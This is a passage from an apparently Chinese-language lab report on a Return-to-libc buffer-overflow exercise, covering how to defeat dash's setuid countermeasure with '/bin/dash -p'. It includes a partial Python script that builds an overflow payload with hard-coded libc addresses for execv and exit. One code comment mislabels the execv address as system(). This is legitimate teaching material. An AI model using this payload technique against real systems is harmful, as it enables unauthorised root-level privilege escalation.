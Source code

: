       ![修改长度](/img/posts/2023-11-20-Return_to_Libc实验报告/images/修改长度.png)

   ### Task 4: Defeat Shell’s countermeasure  

   1. 将/bin/sh与/bin/dash链接，重新进行实验。

      虽然/bin/sh和/bin/dash都会对用户setuid权限进行检查，导致无法获取到root权限，但是如果加上-p参数，就可以绕过。可以让程序直接执行"/bin/dash -p"命令获取root权限。

   2. 获取execv函数地址：

      ![execv地址](/img/posts/2023-11-20-Return_to_Libc实验报告/images/execv地址.png)

   3. 构造脚本

      ```python
      #!/usr/bin/env python3
      import sys
      
      
      # Fill content with non-zero values
      content = bytearray(0xaa for i in range(517))
      
      start = 28
      
      execv_addr = 0xf7e994b0    # The address of system()
      content[start:start+4] = (execv_addr).to_bytes(4,byteorder='little')
      
      # The first argument of execv()
      exit_addr = 0xf7e04f80     # The address of exit()
      content[start+4:start+8] = (exit_addr).to_bytes(4,byteorder='little')
      
      bash_addr = 0xffffd3e2       # The address of "/bin/dash"
      p_addr = 0xffffde99 # The address of "-p"
      content[start+8:start+12] = (bash_addr).to_bytes(4,byteorder='little')
      